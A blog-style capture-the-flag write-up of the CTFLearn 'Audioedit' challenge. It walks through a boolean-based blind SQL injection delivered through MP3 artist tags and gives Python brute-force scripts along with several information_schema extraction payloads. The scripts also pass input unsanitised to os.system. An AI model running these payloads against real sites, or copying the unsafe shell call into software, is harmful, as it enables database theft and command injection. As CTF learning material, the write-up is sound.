```yaml
---
layout: post
title:  "Audioedit Writeup: CTFLearn"
date:   2020-09-18 16:25:10 +0545
author: machinexa
image: /writeups/assets/images/ctflearn_audioedit_homepage.png
category: Writeups
---
```


The CTF was terribly insane blind SQLi. I started in the morning,  lost my entire day on simple mistakes, and got really frustrated when doing the challenge. The URL was [https://web.ctflearn.com/audioedit/](https://web.ctflearn.com/audioedit/). I received this challenge at night from my friend **Jokr**. So, let's get started.

# Finding the Injection
As its name suggests, it takes `.mp3` file and edits it. So, we have a file upload which leads to an edit page with a unique generated filename. I tried playing with file upload. Eventually, it leads me to nowhere and I assumed file upload was secure. So, what to do then. Well, it took me some time to realize the file was being fetched from the database. The parameter looked like this: [?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3](https://web.ctflearn.com/audioedit/edit.php?file=0b07586dffe744a6f2ee824248ed8e61283a3497.mp3)  

Though jokr said SQLi isn't here still I tried SQL injection and injecting a quote, I got error **" Error fetching audio from DB"** which confirmed the vulnerability.

![Error String](/writeups/assets/images/ctflearn_audioedit_errorpage.png)

Trying SQLi for some time again failed me. It wasn't working for some reason (not because of rabbit). Later, injecting " gave me the same error as '  which means it's not vulnerable. I took some caffeine and started thinking where could I find a possible attack vector as I could only upload .mp3. 

Later he gave a hint that SQLi is in Exif metadata. Also, `exiftool` didn't work for the mp3 file, so I had to find something different. The module `python3-mutagen` is a module for adding tags in mp3 which provided `mid3v2` a perfect cmd line script for the situation.

# Knowing the Injection
First, I found the vulnerability by adding ' and " and then confirmed it. `mid3v2 -a "' or '" testing.mp3` is an example of how to inject SQL payload to music tags. I got 0 in author response which indicates condition evaluated to False. Since, running the program, uploading it, and checking the condition is lengthy, I used `Burpsuite` which was my second mistake.  

![Burp Request](/writeups/assets/images/ctflearn_audioedit_burprequest.png)

I tried sending some advanced payloads like `' or 1=1 or '` and `' and 1=1 and '` to see how it behaves. Unfortunately, it was throwing error. Each time I tried something new, it gave an error. One more thing to notice is that sending file content with the same content but entirely different filename caused **File Exist** error to be thrown. Mine frustration slowly increased with time, later I found out it was because I directly edited the request from burp suite *(which I should never have).*

I tried to make a python3 script to upload the file and directly give me response which cost me around 1-2 hour. I used http instead of https which caused error. Finally i have a script that does automatically does everything, i just have to type the payload. Here's a small portion: 
```python
url = "https://web.ctflearn.com/audioedit/submit_upload.php"
while True:
    s = requests.Session()
    multipart_data = MultipartEncoder(
        fields = {
            'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
        })
    headers = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': multipart_data.content_type
        } 
    def setcmd():
        command = 'mid3v2 -a "' + get_random_string(4) + input("Enter SQLi payload: ") + '" testing.mp3'
        print(command)
        system(command)
    setcmd()
    response = s.post(url, data=multipart_data, headers=headers)
    soup = BeautifulSoup(response.text, 'html.parser')
    for small in soup.find_all('small'):
        print(small)
``` 
<br>
Finally, I found out what I was exploiting was boolean-based blind SQLi. The injection point was `' or SQL COMMAND or '`. For further confirmation, I did this which I thought would eval to true and did evaluate to true `' and 2=2 or 99=99 or '`.
# Exploring SQLi Blindly
The insanity starts here. I DM'ed **Blindhero**, another of my nice mentor/friend for some tips on how to get DBMS, tables... He told me to use `SELECT CASE WHEN` which works on `Sqlite`. Unfortunately, it didn't work as it was `MySQL`. He also said about how to get a database, table, and so on. He constantly helped me debug my payload. Now, i started by very basic information gathering payload `' and 2=2 or (SELECT substr(version(),1,1)=5) or '`  which returned 1 and is equivalent to boolean true. 

Then, moving forward to finding the current database which was not easy but ok. Since it was boolean-based blind doing it by hand would take ages. So, I coded some exploit. Crafting query took time but eventually this `' and 2=2 or (SELECT substr(database(),1,1)='a')` returned true. Here's some of my code with an explanation.
```python
allchar = 'abcdeghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
E = SQLExploit()
while True:
    for i in allchar:
        s = requests.Session()
        E.reset()
        time.sleep(0.2)
        if E.exploitdb(i) == True:
            print("Breaked loop")
            break
        else:
            continue
``` 
<br>
E is an SQLExploit object which I will talk later and tries all the character while the `reset()` function opens the mp3 file again. I ran into a problem where the first query ran successfully while the second error out in a while loop. This again wasted my 10 minutes along with giving me some irritation. Later I fixed it by reopening the file each time I execute the loop. The SQLExploit class looks like this: 
```python
class SQLExploit:
    def __init__(self):
        self.md = ""
        self.hd = ""
        self.text = ""
        self.pos = 1

    def reset(self):
        self.md = MultipartEncoder(
            fields = {
                'audio': ('testing.mp3', open('testing.mp3', 'rb'), 'audio/mpeg')
            }
        )
        self.hd = {
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Accept-Language': 'en-US,en;q=0.5',
            'Content-Type': self.md.content_type
        }
    def setcmd(self, character):
        #Finds database
        try:
            command = 'mid3v2 -a "' + get_random_string(5) +   "' and 2=2 or (select substr(database()," + str(self.pos) + ",1)='" + character +"') or '" + '" testing.mp3'
            print(command)
            system(command)
        except Exception as E:
            print(E)
```
<br>
`self.md` and `self.hd` are multipart data and headers respectively. `reset()` opens the mp3 file while `get_random_string(5)` gets random string of length 5 as it name says. `system()` is short of `os.system()` and position is `self.pos` is position of substr. Since, we got 1st postion as 'a', we need to increment it. `self.text` is for storing name of database found.

So, having everything we need let's start the exploit. Also, some part was slightly modified in this code which I won't show as it's not necessary.
Now, let's run the exploit. 

![Database Audioedit](/writeups/assets/images/ctflearn_audioedit_database.png)

Looks nice right? Let's go for a table. I asked him about how to find tables and hinted about information_schema. I created a similar database and table in localhost and came up with this:  
 `(SELECT table_schema, table_name FROM information_schema.tables where table_schema = 'audioedit' and table_name LIKE 'a%' limit 1;)`

Unfortunately, it's hard to include this upper payload in SQLi, and that's why I did the `substr()` method. Also, after debugging my payload and improving it I get:     

`' and 2=2 or (SELECT substr(table_name,1,1) FROM information_schema.tables where table_schema = 'audioedit' limit 1)='h' or '`   
 
I also modified the `setcmd()` function slightly and exploiting gives me `audioedit` which is the same as the database name.

Ah, I was tired and irritated. Took some caffeine again and got started. For numbers of columns in that table, querying information schema I used this:   

`' and 2=2 or (SELECT substr(count(*),1,1) FROM information_schema.columns WHERE table_name = 'audioedit')=1 or '`  
<br>
So, after running script i know number of columns are 5, now what. After writing another payload to find column it errored out no matter what i used. Now, this part was very tough to debug. I just went mad trying to find out what was the problem. It took about 3 hours to find what was the problem. I crafted about 4-5 payloads, none of them were working.
```sql
' and 2=2 or (SELECT substr(column_name,1,1) FROM information_schema.columns where table_name='audioedit' limit 1 OFFSET 1)='a' or '
' and 2=2 or (SELECT((SELECT count(*) FROM information_schema.columns WHERE table_name = 'audioedit' and column_name LIKE 'xx%')=1)) or '
' and 2=2 or (select substr(column_name,1,1)='y' from information_schema.columns where table_name = 'audioedit' limit 1,1) or '
```
<br>
First, I thought `limit` was blocked as every payload used it. Trying simpler payloads like `' and 2=2 or (select version() like '5%' limit 1) or '` did work. I got to a point when the payload was large, then I added `()`  which caused the error. Oh, so spaces are the problem. Why the hell did I use `2=2`. Shit. Also, i reduced `get_random_string()` to length of 2. Finally, it worked like a charm and got the first column name, then second, then third... 

![Random Column name](/writeups/assets/images/ctflearn_audioedit_random.png)

I did some SQL magic in column File and found out the flag was in file `supersecretflagf1le.mp3`. So, I used the file parameter to reference that file, and unfortunately, I didn't get a flag. 

# Audio Editing
Its the final step, setting visualization to a sonogram and editing some other kind of stuff, I got the flag embedded in the image. After submitting I felt quite relaxed.

![Random Column name](/writeups/assets/images/ctflearn_audioedit_flag.png)

I used this resource constantly during exploiting SQLi: [SQL Wiki](https://sqlwiki.netspi.com/)


# Takeaway 

* Always check for the length of SQL query you can inject.
* Pay attention to smaller details to prevent error.
* Never edit a binary by hand in Burpsuite. It's prone to errors.


